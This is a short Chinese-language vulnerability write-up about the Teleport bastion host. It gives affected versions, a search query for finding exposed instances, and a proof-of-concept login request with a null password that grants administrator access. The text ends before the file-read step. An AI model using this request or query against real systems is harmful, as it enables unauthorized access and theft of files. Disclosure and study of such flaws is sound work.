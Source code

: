 # Teleport堡垒机 get-file 后台任意文件读取漏洞

## 漏洞描述

Teleport堡垒机 get-file接口存在后台任意文件读取漏洞，攻击者利用任意用户登录漏洞后可以获取后台权限，再进一步利用任意文件读取获取服务器上的敏感文件

## 漏洞影响

<a-checkbox checked>Teleport Version <= 20220817</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TELEPORT堡垒机"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1660720653270-fcd22c8e-0df1-42ea-aa02-2c94e0770e76-20220823130906124.png)

登录后使用POC验证

```php
POST /auth/do-login

args={"type":2,"username":"admin","password":null,"captcha":"ykex","oath":"","remember":false}
```

![img](../../../.vuepress/public/img/1661087828041-1bf5d666-f5fd-4d69-9099-465b3dd492f2-20220823130904925.png)

code 返回 0 即为成功，再访问 /dashboard 获取管理员权限

![img](../../../.vuepress/public/img/1661087872154-ba6ae117-5a99-43f4-919f-1b22f403ab37-20220823130904719.png)